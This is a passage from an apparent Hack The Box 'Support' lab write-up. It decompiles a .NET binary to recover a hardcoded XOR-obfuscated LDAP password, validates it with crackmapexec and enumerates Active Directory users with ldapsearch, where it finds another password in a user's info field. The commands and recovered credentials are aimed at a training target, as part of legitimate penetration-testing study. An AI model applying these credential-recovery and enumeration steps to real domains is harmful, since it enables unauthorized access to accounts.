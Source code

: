 ### Getting user

I moved to my Windows box and discovered that it is a .NET binary so I can get the code for it pretty easily with ILSpy. Looking around the binary code I found this class:

```c#
// UserInfo.Services.Protected
using System;
using System.Text;

internal class Protected
{
	private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

	private static byte[] key = Encoding.ASCII.GetBytes("armando");

	public static string getPassword()
	{
		byte[] array = Convert.FromBase64String(enc_password);
		byte[] array2 = array;
		for (int i = 0; i < array.Length; i++)
		{
			array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
		}
		return Encoding.Default.GetString(array2);
	}
}
```

Executing the funtion gives the password: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`. One thing to note is that this password is for the user: `support\ldap` according with the part of the code that actually use this class. I tested the credentials with `crackmapexec` and they are valid!

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Support/support-tools-share]
└─$ crackmapexec ldap 10.10.11.174 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'        
SMB         10.10.11.174    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.174    389    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

After looking around I found something when enumerating users:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Support/support-tools-share]
└─$ ldapsearch -x -H ldap://10.10.11.174 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb"
...

# Protected Users, Users, support.htb
dn: CN=Protected Users,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: group
cn: Protected Users
description: Members of this group are afforded additional protections against
  authentication security threats. See http://go.microsoft.com/fwlink/?LinkId=
 298939 for more information.
...
info: Ironside47pleasure40Watchful
...
```
